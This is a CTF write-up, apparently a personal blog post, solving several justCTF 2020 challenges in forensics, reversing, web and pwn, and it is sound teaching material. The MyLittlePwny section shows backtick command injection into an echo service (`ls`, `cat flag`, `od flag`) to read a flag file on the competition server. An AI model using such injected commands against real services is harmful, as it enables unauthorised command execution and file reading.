

+++
title = "Writeup: justCTF [*] 2020"
publishDate = 2021-01-31T19:00:00+00:00
math = true
+++

- Website: https://2020.justctf.team/
- CTFTime: https://ctftime.org/event/1050

First time being unable to solve any crypto challenge. In fact, I couldn't solve
any challenge below 100 solves.

I guess I need to do more of these.

## Sanity Check (misc)

> The flag is somewhere on our website. The attachment might guide you.
>
> https://www.youtube.com/watch?v=CM3jcGsS0Po

> I was stuck on this challenge longer than I care to admit...

The link is for a video titled "Take That - Rule The World (Official Video)".
Simply open the rules and find the example flag.

## PDF is broken, and so is this file (fore, misc)

> This PDF contains the flag, but you’ll probably need to fix it first to figure out how it’s embedded. Fortunately, the file contains everything you need to render it. Follow the clues to find the flag, and hopefully learn something about the PDF format in the process.
>
> https://ams3.digitaloceanspaces.com/justctf/eccb3bff-69aa-4232-8087-a5e8eea0f581/challenge.pdf

Open the PDF, and you're greeted with a single blank page. Opening the file in a
text editor, however, reveals more interesting information. Near the beginning
of the PDF, we find some ruby code:

```
port = 8080
if ARGV.length > 0 then
  port = ARGV[0].to_i
end
html=DATA.read().encode('UTF-8', 'binary', :invalid => :replace, :undef => :replace).split(/<\/html>/)[0]+"</html>\n"
v=TCPServer.new('',port)
print "Server running at http://localhost:#{port}/\nTo listen on a different port, re-run with the desired port as a command-line argument.\n\n"
loop do
  s=v.accept
  ip = Socket.unpack_sockaddr_in(s.getpeername)[1]
  print "Got a connection from #{ip}\n"
  request=s.gets
  if request != nil then
    request = request.split(' ')
  end
  if request == nil or request.length < 2 or request[0].upcase != "GET" then
    s.print "HTTP/1.1 400 Bad Request\r\nContent-Length: 0\r\nContent-Type: text/html\r\nConnection: close\r\n\r\n"
    s.close
    next
  end
  req_filename = CGI.unescape(request[1].sub(/^\//,""))
  print "#{ip} GET /#{req_filename}\n"
  if req_filename == "favicon.ico" then
      s.print "HTTP/1.1 404 Not Found\r\nContent-Length: 0\r\nContent-Type: text/html\r\nConnection: close\r\n\r\n"
      s.close
      next
  elsif req_filename.downcase.end_with? ".zip" then
    c="application/zip"
    d=File.open(__FILE__).read
    n=File.size(__FILE__)
  else
    c="text/html"
    d=html
    n=html.length
  end
  begin
    s.print "HTTP/1.1 200 OK\r\nContent-Type: #{c}\r\nContent-Length: #{n}\r\nConnection: close\r\n\r\n"+d
    s.close
  rescue Errno::EPIPE
    print "Connection from #{ip} closed; broken pipe\n"
  end
end
__END__
<html>
  <head>
    <title>A PDF that is also a Ruby Script?</title>
  </head>
  <body>
    <center>
      <a href="/flag.zip"><h1>Download</h1></a>
    </center>
    <!-- this is not the flag -->
  </body>
</html>
```

The ruby code seems to run a HTTP server and serves a `flag.zip` file, seems
promising. Execute the PDF document as a ruby script, and download the resulting
zip file. Inside, we find a `mutool` binary and a
`false_flag.md`:

````
You didn't think it would be this easy, did you?

https://www.youtube.com/watch?v=VVdmmN0su6E#t=11m32s

Maybe try running `./mutool draw -r 300 -o rendered.png` on this PDF

```
$ docker run -ti --rm -w /workdir/ --mount type=bind,source="$PWD",target=/workdir ubuntu:bionic ./mutool
```
````

Follow the instructions, and we get a `rendered.png`:



Googling the terms found in the image, we are led to a
[blog post](https://blog.didierstevens.com/2008/05/19/pdf-stream-objects/)
detailing PDF stream objects and how they are formatted.

Alright, let's [extract](pdf/extract_streams.py) all the stream objects from the
PDF. Most of the objects are compressed, so we also
[decompress](pdf/decompress.py) them.

```
$ file {0..20}{,.dec}
0:      HTML document, ASCII text
0.dec:  cannot open `0.dec' (No such file or directory)
1:      zlib compressed data
1.dec:  ASCII text, with very long lines
2:      zlib compressed data
2.dec:  Targa image data - Map (257-257) 257 x 257 x 1 +257 +257 - 1-bit alpha "\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001\001"
3:      zlib compressed data
3.dec:  ASCII text
4:      zlib compressed data
4.dec:  ASCII text
5:      zlib compressed data
5.dec:  ISO-8859 text, with very long lines, with no line terminators
6:      JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, comment: "CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 95", baseline, precision 8, 1920x1280, components 3
6.dec:  cannot open `6.dec' (No such file or directory)
7:      JPEG image data, Exif standard: [TIFF image data, little-endian, direntries=10, manufacturer=Canon, model=CanoScan LiDE 90, orientation=upper-left, xresolution=158, yresolution=166, resolutionunit=2, software=MP Navigator EX 1.0, datetime=2011:08:20 19:45:24], baseline, precision 8, 2309x1578, components 3
7.dec:  cannot open `7.dec' (No such file or directory)
8:      zlib compressed data
8.dec:  PostScript Type 1 font text (CMBX10 003.002)
9:      zlib compressed data
9.dec:  PostScript Type 1 font text (CMBX9 003.002)
10:     zlib compressed data
10.dec: PostScript Type 1 font text (CMR10 003.002)
11:     zlib compressed data
11.dec: PostScript Type 1 font text (CMR17 003.002)
12:     zlib compressed data
12.dec: PostScript Type 1 font text (CMSS10 003.002)
13:     zlib compressed data
13.dec: PostScript Type 1 font text (CMSY10 003.002)
14:     zlib compressed data
14.dec: PostScript Type 1 font text (CMTI10 003.002)
15:     zlib compressed data
15.dec: PostScript Type 1 font text (CMTI12 003.002)
16:     zlib compressed data
16.dec: PostScript Type 1 font text (CMTT10 003.002)
17:     Zip archive data, at least v1.0 to extract
17.dec: cannot open `17.dec' (No such file or directory)
18:     zlib compressed data
18.dec: cannot open `18.dec' (No such file or directory)
19:     zlib compressed data
19.dec: PostScript Type 1 font text (CMTI12 003.002)
20:     zlib compressed data
20.dec: PostScript Type 1 font text (CMTT10 003.002)
```

Examining each file manually, we find [`4.dec`](pdf/4.dec), which contains
suspicious hex-encoded data. Decoding it, we obtain an image (and the flag).

```
$ xxd -r -p 4.dec | file -
/dev/stdin: JPEG image data, JFIF standard 1.01, resolution (DPI), density 300x300, segment length 16, baseline, precision 8, 1182x1182, components 3
```


## MyLittlePwny (pwn, misc)

> Ponies like only one type of numbers!
>
> `nc mylittlepwny.nc.jctf.pro 1337`

After connecting to the server and experimenting a bit, it seems to simply
echo the input string, a-la cowsay. It also seems to filter out a few special
characters:

```
> hello world
 _____________
< hello world >
 -------------
            \
             \
              \     ▄▄▄▀
               \   ██▄▀▄
                \ █▄▄▄█▄▄
               ▄▄▄▄▄▀▄▄   ▄▄
               ██▄▄▄▄▄▄▄▄▄▄█
               ▄▄██▄▄▄███▄▄▄█
    ▄▄▄▄▄▄▄    ███▄▄▄▄█▄█▄▄▄█
  ▄▄███████▄▄▄▄▄▀▄▄███▄█▄█▄▀
 ██████▄▀▀▄██▄██▄▄█▄▄▄▄▄▄▀
 █▄█▄▄▄▀  █████▄██▄██▄█▄
 ██████   ▄▄██▄▄██▄▄███
  ███▄▀ ▄▄▄▄██▄▄▄▄▄████▄
  █▄▀  ███▄▄▄███ ▀▄▄▄▄██
  ▀    ▀▀▀   ▀▀▀    ▀▄▄█

> -
 _______________________
< I don't want to argue >
 -----------------------
       \
        \
         \
          \    ▄██ ▄▄▄█
             ▄▄████▄████
           ▄▄▄▄▄▄▄▄▄██▄▀
 ▄▄▄▄▄▄▄█▄▄██▄▄▄▄▄▄▄▄▄█
 ▀▄▄▄▄█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
     ▀▀▀▄▄███▄▄▄▄█████▄▄▄▄▄▄▄▄
        ██████████████▀▀▀▄▄▄█
        ██████████████   ▄▄██▄▄▄▄▄▄▄▄
       █▄██▄▄▄▄▄▄████▄▄▄▄█▄▄▄██▄▄▄▄▄▄█▄▄▄▄▄
       ▀▄▄████████▄████▄▄▄▄█▄██████████████▄▄▄▄▄▄▄▄
          ▀▀▀▀▀▀▀▀▄▄█▄██████▄▄▄▄███████████████▄▄▀▀▀
                    █▄█▄█▄▄█████▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀
                    ▀▄▄█▄████▄▄█▄███▄▄▄
                      ██▄▄███  ▀▄▄██▄▄▄▄▄▄
                      ███▄▄██▄▄█▄█▄▄▀▀▄█▄▄▄▄
                     ▄▄▄▄█▀▄▄▄█▄▄▄█▀   ▀▄▄███
                    ▄▄▄█▄▀ ▀▄▄█▄▄▄█     ███▄▀
                   ▄▄▄▄▄█   █▄▄▄█       ▀▀▀
                  █▄▄▄▄▄▀  █▄▄▄▄█

> .
 __________________
< I can't swear ;( >
 ------------------
 \
  \
   \
    ▄▄▄▄▄▄▄
    ▀▄▄████▄▄
  ▄▄▄█████▄█▄█▄█▄▄▄
 ██████▄▄▄█▄▄█████▄▄
 ▀▄▀ █████▄▄█▄▄█████
     ▄▄▄███████████▄▄▄
     ████▄▄▄▄▄▄███▄▄██           ▄▄▄▄▄▄▄
     ████▄████▄██▄▄███       ▄▄▄▄██▄▄▄▄▄▄
    █▄███▄▄█▄███▄▄██▄▀     ▄▄███████▄▄███▄▄
    ▀▄██████████████▄▄    ▄▄█▄▀▀▀▄▄█████▄▄██
       ▀▀▀▀▀█████▄█▄█▄▄▄▄▄▄▄█     ▀▄████▄████
            ████▄███▄▄▄▄▄▄▄▄▄     ▄▄█████▄███
            ▀▄█▄█▄▄▄██▄▄▄▄▄██    ▄▄██▄██████
             ▀▄████████████▄▀  ▄▄█▄██████▄▀
              ██▄██▄▄▄▄█▄███▄ ███▄▄▄▄▄██▄▀
              ██████  ▀▄▄█████ ▀████████
             ▄▄▄▄███   ███████ ██████▄█▄▄
             ███████   ████████▀▄▀███▄▄█▄▄
           ▄██▄▄████   ████████   ▀▄██▀▄▄▀
           █▄▄██████   █▄▄██████    ▀
             █▄▄▄▄█       █▄▄▄▄█
```

Lukily, it does not filter out the backtick (`` ` ``) character, which allows us
to perform command injection.

```
(art omitted for brevity)
> `
/bin/sh: 2: Syntax error: EOF in backquote substitution
> `ls`
 __________________________________
< bin flag lib lib64 server.py usr >
 ----------------------------------
> `cat flag`
 ________________
< I like cats :) >
 ----------------
> `ls bin`
 _______________________________________________________________
/ bash bunzip2 bzcat bzcmp bzdiff bzegrep bzexe bzfgrep bzgrep  \
| bzip2 bzip2recover bzless bzmore cat chgrp chmod chown cp     |
| dash date dd df dir dmesg dnsdomainname domainname echo egrep |
| false fgrep findmnt grep gunzip gzexe gzip hostname kill less |
| lessecho lessfile lesskey lesspipe ln login ls lsblk mkdir    |
| mknod mktemp more mount mountpoint mv nisdomainname nsjail od |
| pidof ps pwd rbash readlink rm rmdir run-parts sed sh         |
| sh.distrib sleep stty su sync tar tempfile touch true umount  |
| uname uncompress vdir wdctl which ypdomainname zcat zcmp      |
\ zdiff zegrep zfgrep zforce zgrep zless zmore znew             /
 ---------------------------------------------------------------
```

The server even filters `cat`, but we still have a few other commands at our
disposal. A few of them seem promising, `od`, for instance:

```
> `od flag`
 __________________________________________________________
/ 0000000 072552 072163 052103 075506 030160 054556 072137 \
| 066064 0000020 071505 061137 063463 047151 057465 031550 |
\ 031562 005175 0000040                                    /
 ----------------------------------------------------------
```

We then copy the output, remove the offset markers (`0000000`, `0000020`,
`0000040`), and decode to obtain the flag.

```
>>> s = '072552 072163 052103 075506 030160 054556 072137 066064 071505 061137 063463 047151 057465 031550 031562 005175'
>>> b''.join(int(ss, 8).to_bytes(2, 'little') for ss in s.split())
b'justCTF{p0nY_t4lEs_b3giN5_h3r3}\n'
```

## That's not crypto (re)

> This is very simple RE task, but you may need some other skills as well. :)
>
> - https://ams3.digitaloceanspaces.com/justctf/11456603-38e8-4b10-9863-296fc0cf0342/checker.pyc
>
> [mirror](notcrypto/checker.pyc)

We [uncompyle](https://pypi.org/project/uncompyle6/) the file, obtaining a
[python script](notcrypto/checker.py).

The checker does the following:

1. Multiply each element in the hardcoded integer list by $4919$ to obtain a
   coefficient list.
2. Create the "correct array" $S$ from the input string $s$ as $ S_i = 69684751861829721459380039 \sum_{j=0}^{i} s_j $
3. For each element in $S$, determine that computing the
   polynomial defined by coefficients in the aforementioned integer list  is
   exactly $24196561$.

There most likely exists an efficient way to obtain the flag, but given that the
polynomial is only 58 terms long, it is trivial to brute force the flag. We
remove the length check in the `validate` function to allow guessing one
character at a time, and recover the flag.

```
$ ./solution.py
found: justCTF{t
found: justCTF{th
found: justCTF{thi
[...]
justCTF{this_is_very_simple_flag_afer_so_big_polynomails}
```

Solution: [solution.py](notcrypto/solution.py)

## Forgotten name (misc, web)

> We forgot what our secret domain name was... We remember that it starts with
> `6a..`. Can you help me recover it?
>
> *Hint: the domain name is not bruteforcable*

Other challenges use a domain in `*.jctf.pro`, so we can try searching the
[certificate transparency logs](https://crt.sh/?q=jctf.pro). We find a
certificate like so:

```
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            04:bb:49:bb:2f:63:2f:2e:1f:02:d0:ce:4f:94:10:e5:fc:6f
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C = US, O = Let's Encrypt, CN = R3
        Validity
            Not Before: Jan 30 06:59:52 2021 GMT
            Not After : Apr 30 06:59:52 2021 GMT
        Subject: CN = 6a7573744354467b633372545f6c34616b735f6f3070737d.web.jctf.pro
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                RSA Public-Key: (2048 bit)
                Modulus:
                    00:b3:54:fe:62:c3:64:a4:64:67:38:bb:da:74:75:
                    87:a9:89:8e:35:bf:fb:de:d5:1d:a5:b5:10:76:1f:
                    4a:96:97:24:db:dc:69:1e:e7:39:4d:4e:7e:5a:79:
                    e4:84:39:7e:00:22:58:74:e6:d1:b2:99:ee:d8:e1:
                    21:c8:dc:ea:45:c9:a7:a7:47:8d:f7:c0:78:3a:1b:
                    3b:e3:98:59:0b:94:2f:eb:da:fb:97:c9:8f:cc:58:
                    a8:da:48:b1:6d:0c:22:6f:02:31:46:cf:be:ad:2f:
                    45:11:c0:e4:a4:fb:d6:b3:04:d2:6c:74:34:b3:b7:
                    7f:5b:af:63:fc:eb:be:8c:26:e7:97:6d:98:c8:0a:
                    85:0e:93:2e:18:75:49:67:31:ba:c9:67:08:0c:29:
                    e3:55:23:9c:11:c0:32:24:56:68:8c:66:bc:25:d1:
                    26:7d:9c:c2:b3:8b:0a:9f:d0:c3:2c:89:f0:cc:77:
                    15:83:35:af:c3:13:b2:5c:3a:4c:99:67:1c:a3:a7:
                    52:f8:bd:62:7f:ce:8d:0d:ae:8e:9e:36:bf:a5:2f:
                    ac:b6:04:0b:a1:88:c9:81:ae:b4:fd:db:a3:35:1e:
                    d1:f5:05:5d:bd:94:76:f9:9f:9d:25:af:27:10:c0:
                    69:d8:be:85:4b:43:0f:c3:17:8a:5f:09:f2:96:52:
                    b0:f1
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            X509v3 Extended Key Usage:
                TLS Web Server Authentication, TLS Web Client Authentication
            X509v3 Basic Constraints: critical
                CA:FALSE
            X509v3 Subject Key Identifier:
                E6:D5:FA:C1:3B:DD:66:B8:DC:DF:3F:98:7B:0A:FD:4E:1D:EC:97:48
            X509v3 Authority Key Identifier:
                keyid:14:2E:B3:17:B7:58:56:CB:AE:50:09:40:E6:1F:AF:9D:8B:14:C2:C6

            Authority Information Access:
                OCSP - URI:http://r3.o.lencr.org
                CA Issuers - URI:http://r3.i.lencr.org/

            X509v3 Subject Alternative Name:
                DNS:6a7573744354467b633372545f6c34616b735f6f3070737d.web.jctf.pro
            X509v3 Certificate Policies:
                Policy: 2.23.140.1.2.1
                Policy: 1.3.6.1.4.1.44947.1.1.1
                  CPS: http://cps.letsencrypt.org

            CT Precertificate SCTs:
                Signed Certificate Timestamp:
                    Version   : v1 (0x0)
                    Log ID    : 5C:DC:43:92:FE:E6:AB:45:44:B1:5E:9A:D4:56:E6:10:
                                37:FB:D5:FA:47:DC:A1:73:94:B2:5E:E6:F6:C7:0E:CA
                    Timestamp : Jan 30 07:59:52.234 2021 GMT
                    Extensions: none
                    Signature : ecdsa-with-SHA256
                                30:46:02:21:00:E3:CA:AA:1E:BF:73:58:14:7D:CD:E9:
                                4A:5A:33:6A:B4:58:3C:21:4F:32:FE:87:84:35:DF:B0:
                                A6:18:0F:2B:C7:02:21:00:93:80:F3:FD:C7:87:03:FF:
                                8E:5A:B9:78:8E:B7:28:81:50:A0:D1:1C:A7:BB:5D:C2:
                                33:9C:AD:E0:DA:9E:96:A3
                Signed Certificate Timestamp:
                    Version   : v1 (0x0)
                    Log ID    : F6:5C:94:2F:D1:77:30:22:14:54:18:08:30:94:56:8E:
                                E3:4D:13:19:33:BF:DF:0C:2F:20:0B:CC:4E:F1:64:E3
                    Timestamp : Jan 30 07:59:52.220 2021 GMT
                    Extensions: none
                    Signature : ecdsa-with-SHA256
                                30:44:02:20:71:86:86:33:D0:C9:94:B2:1E:CF:66:C2:
                                8F:8C:C2:95:C1:46:B9:A4:B6:EA:23:B8:9C:59:7C:F6:
                                1F:F2:FE:50:02:20:68:C5:52:D0:38:BF:3B:25:63:F7:
                                E6:81:66:2D:37:B3:B3:61:19:8F:BD:BF:BA:ED:EA:54:
                                F8:A1:99:56:2C:E6
    Signature Algorithm: sha256WithRSAEncryption
         1d:bd:43:e0:a9:67:46:48:d7:28:97:85:ef:01:89:0c:4f:e7:
         91:ae:36:82:4f:2f:11:98:b3:50:37:c4:6f:fa:af:cd:84:08:
         cc:f9:a9:fa:3a:76:0b:0b:ad:7f:99:dc:5e:ca:5a:f2:c4:71:
         27:0e:44:11:42:50:c8:e7:2b:63:1a:b4:b7:7f:bd:58:67:c4:
         9f:5f:49:d4:4f:e8:47:f8:7e:1d:49:3a:1a:93:bc:5d:49:32:
         d4:97:3c:48:46:fc:aa:af:5c:c2:b4:4f:75:fb:66:b1:9f:c4:
         ca:43:8f:d3:27:71:7b:a6:a7:92:05:68:b1:67:28:0e:ef:a1:
         12:c7:d9:eb:22:7d:59:e1:8e:b6:36:1d:21:0b:53:ef:42:57:
         e8:88:9e:1c:4f:35:6e:dc:be:cd:0e:79:20:f5:3f:d8:d8:ce:
         63:54:ae:a1:dc:7e:19:c4:b4:d7:fe:c4:22:7b:75:49:aa:94:
         4f:17:aa:94:fa:58:47:5f:33:71:3c:73:15:41:e9:16:71:eb:
         22:5c:18:0a:4f:1a:a2:d2:73:e5:eb:fc:3f:4e:de:c0:23:0e:
         b7:6e:4e:01:86:aa:13:5c:22:98:c2:bc:58:ed:d2:74:d5:21:
         63:7c:a5:92:df:db:23:74:0d:78:ca:7a:55:16:ce:f5:41:d2:
         2d:ab:6b:30
-----BEGIN CERTIFICATE-----
MIIFgDCCBGigAwIBAgISBLtJuy9jLy4fAtDOT5QQ5fxvMA0GCSqGSIb3DQEBCwUA
MDIxCzAJBgNVBAYTAlVTMRYwFAYDVQQKEw1MZXQncyBFbmNyeXB0MQswCQYDVQQD
EwJSMzAeFw0yMTAxMzAwNjU5NTJaFw0yMTA0MzAwNjU5NTJaMEgxRjBEBgNVBAMT
PTZhNzU3Mzc0NDM1NDQ2N2I2MzMzNzI1NDVmNmMzNDYxNmI3MzVmNmYzMDcwNzM3
ZC53ZWIuamN0Zi5wcm8wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCz
VP5iw2SkZGc4u9p0dYepiY41v/ve1R2ltRB2H0qWlyTb3Gke5zlNTn5aeeSEOX4A
Ilh05tGyme7Y4SHI3OpFyaenR433wHg6GzvjmFkLlC/r2vuXyY/MWKjaSLFtDCJv
AjFGz76tL0URwOSk+9azBNJsdDSzt39br2P8676MJueXbZjICoUOky4YdUlnMbrJ
ZwgMKeNVI5wRwDIkVmiMZrwl0SZ9nMKziwqf0MMsifDMdxWDNa/DE7JcOkyZZxyj
p1L4vWJ/zo0Nro6eNr+lL6y2BAuhiMmBrrT926M1HtH1BV29lHb5n50lrycQwGnY
voVLQw/DF4pfCfKWUrDxAgMBAAGjggJ4MIICdDAOBgNVHQ8BAf8EBAMCBaAwHQYD
VR0lBBYwFAYIKwYBBQUHAwEGCCsGAQUFBwMCMAwGA1UdEwEB/wQCMAAwHQYDVR0O
BBYEFObV+sE73Wa43N8/mHsK/U4d7JdIMB8GA1UdIwQYMBaAFBQusxe3WFbLrlAJ
QOYfr52LFMLGMFUGCCsGAQUFBwEBBEkwRzAhBggrBgEFBQcwAYYVaHR0cDovL3Iz
Lm8ubGVuY3Iub3JnMCIGCCsGAQUFBzAChhZodHRwOi8vcjMuaS5sZW5jci5vcmcv
MEgGA1UdEQRBMD+CPTZhNzU3Mzc0NDM1NDQ2N2I2MzMzNzI1NDVmNmMzNDYxNmI3
MzVmNmYzMDcwNzM3ZC53ZWIuamN0Zi5wcm8wTAYDVR0gBEUwQzAIBgZngQwBAgEw
NwYLKwYBBAGC3xMBAQEwKDAmBggrBgEFBQcCARYaaHR0cDovL2Nwcy5sZXRzZW5j
cnlwdC5vcmcwggEEBgorBgEEAdZ5AgQCBIH1BIHyAPAAdwBc3EOS/uarRUSxXprU
VuYQN/vV+kfcoXOUsl7m9scOygAAAXdSTjGqAAAEAwBIMEYCIQDjyqoev3NYFH3N
6UpaM2q0WDwhTzL+h4Q137CmGA8rxwIhAJOA8/3HhwP/jlq5eI63KIFQoNEcp7td
wjOcreDanpajAHUA9lyUL9F3MCIUVBgIMJRWjuNNExkzv98MLyALzE7xZOMAAAF3
Uk4xnAAABAMARjBEAiBxhoYz0MmUsh7PZsKPjMKVwUa5pLbqI7icWXz2H/L+UAIg
aMVS0Di/OyVj9+aBZi03s7NhGY+9v7rt6lT4oZlWLOYwDQYJKoZIhvcNAQELBQAD
ggEBAB29Q+CpZ0ZI1yiXhe8BiQxP55GuNoJPLxGYs1A3xG/6r82ECMz5qfo6dgsL
rX+Z3F7KWvLEcScORBFCUMjnK2MatLd/vVhnxJ9fSdRP6Ef4fh1JOhqTvF1JMtSX
PEhG/KqvXMK0T3X7ZrGfxMpDj9MncXump5IFaLFnKA7voRLH2esifVnhjrY2HSEL
U+9CV+iInhxPNW7cvs0OeSD1P9jYzmNUrqHcfhnEtNf+xCJ7dUmqlE8XqpT6WEdf
M3E8cxVB6RZx6yJcGApPGqLSc+Xr/D9O3sAjDrduTgGGqhNcIpjCvFjt0nTVIWN8
pZLf2yN0DXjKelUWzvVB0i2razA=
-----END CERTIFICATE-----
```

The webserver at `6a7573744354467b633372545f6c34616b735f6f3070737d.web.jctf.pro`
doesn't contain anything interesting, but decoding
`6a7573744354467b633372545f6c34616b735f6f3070737d` reveals the flag.

```
$ echo 6a7573744354467b633372545f6c34616b735f6f3070737d | xxd -r -p
justCTF{c3rT_l4aks_o0ps}
```

## Computeration (web)

> Can you get admin's note? I heard the website runs only on client-side so should be secure...
>
> https://computeration.web.jctf.pro/
>
> If you find anything interesting give me call here: https://computeration.web.jctf.pro/report
>
> The flag is in the format: justCTF{[a-z_]+}.
>
> Happy hacking!!

If we report something to the admin, the admin bot visits your site. After
submitting a test link, we receive the following request:

```
GET / HTTP/1.1
Host: <snip>
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/88.0.4324.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US
Referer: https://computeration.web.jctf.pro/b811667a5a09db734093a974111d750e?url=https%3A%2F%2F<snip>
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 159.65.203.6
X-Forwarded-Proto: https
```

Visiting the site in the `Referer` header gives reveals the flag. This was an
unintended solution, and the CTF organizers released a fixed version that fixed
this bug (which I couldn't solve).

```
HTTP/2 200
content-type: text/html; charset=utf-8
date: Sun, 31 Jan 2021 17:09:48 GMT
etag: W/"e8-FVyP6J4mzbAHkD6jTxmCNIW9HoY"
referrer-policy: no-referer
server: Caddy
x-powered-by: Express
content-length: 232

<script>

    localStorage.setItem('notes',JSON.stringify([{
        title:'flag',
        content:'justCTF{cross_origin_timing_lol}'
    }]));

    location = (new URL(location.href)).searchParams.get('url');

    </script>
```
